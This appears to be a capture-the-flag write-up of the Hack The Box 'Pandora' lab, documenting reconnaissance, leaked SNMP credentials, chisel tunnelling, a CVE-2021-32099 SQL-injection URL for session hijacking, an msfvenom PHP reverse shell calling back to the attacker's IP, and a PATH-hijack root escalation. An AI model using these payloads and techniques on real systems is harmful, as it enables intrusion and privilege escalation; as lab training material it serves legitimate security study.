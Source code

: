 ![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20box.png)

# nmap

## nmap all ports
````
nmap -p- --min-rate 1000 -T4 -v -oN nmap-all-ports 10.10.11.136

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20all%20ports.png)

## nmap services and versions
````
nmap -sCV -p 22,80 -o nmap-services-versions 10.10.11.133
`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/nmap%20services%20versions.png)

## gobuster
````
gobuster dir -u http://10.10.11.136 -w /opt/tools/SecLists/Discovery/Web-Content/common.txt -o gobuster-main

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/gobuster%20main.png)

# domain
## just static --> not exploitable
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20website.png)

## maybe udp ports are open
````
sudo nmap -sU -p- --min-rate 1000 -T 4 10.10.11.136

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/nmap%20udp%20all%20ports.png)

# msfconsole
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/snmp-enum%20reveals%20creds.png)

## creds
````
daniel:HotelBabylon23

`````

## pandora shell /etc/host reveals new local hosts
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/new%20local%20hosts.png)

# reverse port forward with chisel (and) proxychains

## attacker
````
./chisel server -p 3477 --reverse

./chisel server -p 3477 --socks5 --reverse

`````

## victim
````
./chisel client 10.10.14.7:3477 R:2222:127.0.0.1:80/tcp

./chisel client 13.37.13.37:3477 R:5000:socks

`````

## setup proxychains.conf
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/proxychains.conf.png)

## new login on localhost:2222
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/login%20localhost2222.png)

## pandora fms version in footer
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20fms%20version.png)

## pandora search exploit
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20login%20bypass.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/unauthenicated%20sql%20injection%20cve-2021-32099.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/cve-2021-32099.png)

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/poc%20cve-2021-32099.png)

````
http://localhost:2222/pandora_console/include/chart_generator.php?session_id=a%27%20UNION%20SELECT%20%27a%27,1,%27id_usuario|s:5:%22admin%22;%27%20as%20data%20FROM%20tsessions_php%20WHERE%20%271%27=%271

`````

## cve-2021-32099 burp request
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/burp%20malicious%20get%20request%20to%20retrieve%20phpsessid.png)

## burp response PHPSESSID
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/burp%20response%20phpsessid.png)
## PHPSESSID
````
9mp333j17bophj28at1vgcrkil
`````

## replace cookie and refresh browser --> dashboard
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20fms%20dashboard.png)

## pandora fms file manager with upload utility
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20fms%20file%20manager.png)

## create php reverse shell with msfvenom
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/msfvenom%20php%20reverse%20shell.png)

## php reverse shell
````
msfvenom -p php/reverse_php LHOST=10.10.14.7 LPORT=1111 -f raw > shell.php

`````

## shell.php is store within image folder
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20fms%20successfully%20uploaded%20shell.php.png)

## open shell.php --> reverse shell on port 1111
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20fms%20shell.php%20url.png)

## listening for reverse shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20nc%20listening%20for%20shell.png)

## user.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20user.txt.png)

## attacker machine create ssh-keygen
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/generate%20ssh-kegen.png)

## create folder (mod 600) .ssh in /home/matt and inside .ssh folder create file authorized_keys
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandore%20shell%20create%20.ssh%20and%20authorized%20keys.png)

## pandora_backup file snippet reveals command: tar -cvf /root/..........
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora_backup%20snippet%20reveals%20tar%20as%20root.png)

## create malicious tar command
````
cd /tmp
echo "/bin/bash" > tar
chmod +x tar

export PATH=/tmp:$PATH

/usr/bin/pandora_backup

`````

![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20shell%20create%20malicious%20tar%20command.png)

## pandora root shell
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20shell%20find%20suid%20files.png)

## pandora root.txt
![](https://github.com/xenotim/HackTheBox---CTFs/blob/main/Pandora/screenshots/pandora%20root.txt.png)
XXXXXXXXXXXXXX